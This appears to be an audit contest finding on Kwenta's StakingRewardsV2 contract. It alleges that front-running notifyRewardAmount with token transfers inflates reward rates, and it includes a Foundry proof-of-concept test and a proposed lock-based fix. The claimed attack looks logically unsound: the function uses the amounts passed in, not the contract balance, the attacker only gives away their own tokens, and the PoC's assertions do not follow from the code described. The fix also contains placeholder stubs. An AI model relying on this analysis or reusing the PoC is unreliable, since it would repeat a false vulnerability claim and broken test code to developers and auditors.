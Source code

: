 Sparkly Grape Fly

High

# Reward Inflation Due to Timing Discrepancies in notifyRewardAmount Function

# Summary

The `StakingRewardsV2` contract's `notifyRewardAmount` function can be exploited to inflate reward rates due to timing discrepancies between token transfers and reward rate updates.

# Vulnerability Detail

Consider the following sequence of events:

1. The `rewardsNotifier` contract transfers rewards to the `StakingRewardsV2` contract.
2. The `rewardsNotifier` calls `notifyRewardAmount` with the transferred amounts.
3. The `notifyRewardAmount` function updates the reward rates based on these amounts.

The critical issue is that there's no atomicity between steps 1 and 2. This opens up possibilities for exploitation.

An attacker observing the `mempool` can:

1. See the reward token transfer transaction from `rewardsNotifier` to `StakingRewardsV2`.
2. Quickly transfer additional reward tokens to the `StakingRewardsV2` contract.
3. Have their transaction included in the block before the `notifyRewardAmount` call.

When `notifyRewardAmount` is called, it would then update the reward rates based on a higher balance than what the `rewardsNotifier` intended, effectively inflating the reward rates.

## PoC

Add to `StakingRewardsV2Test` contract:

```solidity
address public attacker = address(0x1337);
uint256 public constant STAKING_AMOUNT = 10_000 * 1e18;
uint256 public constant REWARD_AMOUNT = 1_000 * 1e18;

/// @notice This test demonstrates a vulnerability where an attacker can inflate
/// the reward rate by front-running the notifyRewardAmount function call.
/// This results in the contract promising more rewards than it can actually pay out.
function testRewardInflationExploit() public {
    // Initial state setup
    uint256 initialContractBalance = kwenta.balanceOf(address(stakingRewardsV2));
    
    // Step 1: User stakes tokens
    fundAndApproveAccountV2(user1, STAKING_AMOUNT);
    vm.prank(user1);
    stakingRewardsV2.stake(STAKING_AMOUNT);
    
    // Step 2: Simulate rewardsNotifier preparing to distribute rewards
    vm.prank(treasury);
    kwenta.transfer(address(stakingRewardsV2), REWARD_AMOUNT);
    vm.prank(treasury);
    usdc.transfer(address(stakingRewardsV2), REWARD_AMOUNT);

    // Step 3: Attacker front-runs with additional rewards
    vm.prank(attacker);
    kwenta.transfer(address(stakingRewardsV2), REWARD_AMOUNT);

    uint256 contractBalanceBeforeNotify = kwenta.balanceOf(address(stakingRewardsV2));

    // Step 4: rewardsNotifier calls notifyRewardAmount
    vm.prank(address(rewardsNotifier));
    stakingRewardsV2.notifyRewardAmount(REWARD_AMOUNT, REWARD_AMOUNT);

    // Step 5: Verify inflated reward rate
    uint256 expectedRate = REWARD_AMOUNT / stakingRewardsV2.rewardsDuration();
    uint256 actualRate = stakingRewardsV2.rewardRate();
    assertGt(actualRate, expectedRate, "Reward rate is inflated");

    // Step 6: Fast forward to end of reward period
    vm.warp(block.timestamp + stakingRewardsV2.rewardsDuration());

    // Step 7: User claims rewards
    uint256 userBalanceBefore = kwenta.balanceOf(user1);
    vm.prank(user1);
    stakingRewardsV2.getReward();
    uint256 userBalanceAfter = kwenta.balanceOf(user1);

    // Step 8: Verify user received inflated rewards
    uint256 userRewards = userBalanceAfter - userBalanceBefore;
    assertGt(userRewards, REWARD_AMOUNT, "User receives inflated rewards");

    // Step 9: Check contract's remaining balance
    uint256 contractBalanceAfter = kwenta.balanceOf(address(stakingRewardsV2));
    assertLt(
        contractBalanceAfter, 
        contractBalanceBeforeNotify - REWARD_AMOUNT, 
        "Contract has insufficient balance for all rewards"
    );

    // Log results for better visibility
    console.log("Initial contract balance:", initialContractBalance);
    console.log("Contract balance before notify:", contractBalanceBeforeNotify);
    console.log("Expected reward rate:", expectedRate);
    console.log("Actual reward rate:", actualRate);
    console.log("User rewards received:", userRewards);
    console.log("Contract balance after:", contractBalanceAfter);

    // Demonstration of the impact
    uint256 totalRewardsPromised = actualRate * stakingRewardsV2.rewardsDuration();
    uint256 availableRewards = contractBalanceAfter - initialContractBalance;
    assertGt(totalRewardsPromised, availableRewards, "Promised rewards exceed available balance");
}
```

# Impact

If exploited, this vulnerability can lead to:

1. Inflated reward rates: The contract could promise more rewards than intended.
2. Unfair reward distribution: Early claimers might receive more rewards at the expense of later claimants.
3. Potential insolvency: If exploited repeatedly or with large amounts, the contract might not have enough rewards for all stakers.

# Code Snippet

https://github.com/sherlock-audit/2024-07-kwenta-staking-contracts/blob/0527fb7425206a3338c23177416436c6286cedf9/token/contracts/StakingRewardsV2.sol#L645-L667

# Tool used

Manual Review

# Recommendation

To mitigate this vulnerability, consider implementing the following changes:

1. Implement a two-transaction process:
a. First transaction: Notify the contract of incoming rewards and lock the contract.
b. Second transaction: Transfer the rewards and update the rates.

```solidity
uint256 public pendingReward;
uint256 public pendingRewardUsdc;
bool public locked;

function notifyPendingRewards(uint256 _reward, uint256 _rewardUsdc) external onlyRewardsNotifier {
    require(!locked, "Contract is locked");
    pendingReward = _reward;
    pendingRewardUsdc = _rewardUsdc;
    locked = true;
}

function confirmRewards() external onlyRewardsNotifier {
    require(locked, "Contract is not locked");
    uint256 balanceBefore = kwenta.balanceOf(address(this));
    uint256 usdcBalanceBefore = usdc.balanceOf(address(this));

    // Transfer logic here

    uint256 balanceAfter = kwenta.balanceOf(address(this));
    uint256 usdcBalanceAfter = usdc.balanceOf(address(this));

    require(balanceAfter - balanceBefore == pendingReward, "Incorrect KWENTA transfer");
    require(usdcBalanceAfter - usdcBalanceBefore == pendingRewardUsdc, "Incorrect USDC transfer");

    // Update reward rates here

    locked = false;
    pendingReward = 0;
    pendingRewardUsdc = 0;
}
```

2. Use a snapshot of the contract's balance:
Take a snapshot of the contract's balance at the start of each reward period and base rewards on this snapshot rather than the current balance.